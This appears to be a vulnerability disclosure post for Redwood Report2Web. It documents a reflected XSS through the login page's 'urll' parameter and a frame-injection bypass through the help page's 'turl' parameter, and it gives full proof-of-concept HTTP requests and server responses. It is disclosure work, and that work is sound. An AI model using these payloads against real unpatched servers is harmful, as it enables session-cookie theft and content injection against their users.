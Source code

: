 ```yaml
---
layout: post
title: Redwood Report2Web XSS and Frame injection
categories: cve
---
```


[Report2Web](https://www.redwood.com/report-distribution) v4.3.4.5 and v4.5.3 are vulnerable to XSS. v4.3.4.5 is also vulnerable to frame injection. Both issues are fixed in v4.6.0.

## Report2Web Login Panel XSS
The value of the `urll` parameter is getting reflected without an sanitization, allowing a remote attacker to inject javascript code to the victim's browser.

Request:
```
GET /r2w/signIn.do?urll=%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=F291E04B316ED2DF72623ACEA8D952CA; r2wctg=3
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Response:
```
...
<form name="form" action="signIn.do" method="post" onsubmit="return handleSubmit(this);">
 <input type="hidden" name="id" value="" />
 <input type="hidden" name="language" value="en" />
 <input type="hidden" name="urll" value=""><script>alert(document.cookie)</script>" />
 
<div class="outer">
...
```

## Report2Web Online Help Frame Injection
The `turl` parameter takes a local path as input and diplays it's content inside a frame, e.g. `?turl=/local/path/doc.html`. You can bypass the protection by using `\/hostname.tld` which the browser translates to `//hostname.tld` and then to `https://hostname.tld`, loading a malicious website inside the frame and leading to vulnerabilities like content injection and XSS.

Request:
```
GET /r2w/help/Online_Help/NetHelp/default.htm?turl=\/example.com HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Response:
```
...
<frame id="right" name="right" title="Topic text" src="\/example.com">
...
```
